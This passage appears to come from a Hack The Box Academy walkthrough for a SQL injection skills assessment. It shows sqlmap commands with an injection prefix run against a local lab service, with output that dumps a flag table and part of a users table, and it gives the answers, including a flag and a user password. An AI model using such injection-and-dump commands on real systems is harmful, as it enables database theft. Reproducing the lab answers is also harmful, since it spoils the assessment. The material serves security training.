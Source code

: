Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T flag --dump --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T flag --dump --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: db
Table: flag
[1 entry]
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| HTB{1251ef9b34342f62db6044190f5b83cd} |
+---------------------------------------+

<SNIP>
```

Answer: `HTB{1251ef9b34342f62db6044190f5b83cd}`

# Skills Assessment

## Question 2

### "What is the password for the htb-stdnt user?"

Using the same `sqlmap` middleware from the previous question, students need to use `sqlmap` to dump the `users` table to attain the password `HTB_@cad3my_Stdnt!` for the user `htb-stdnt`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T users --dump --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' -T users --dump --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: db
Table: users
[2 entries]
+----+---------------------+--------------------+-----------+
| id | message             | password           | username  |
```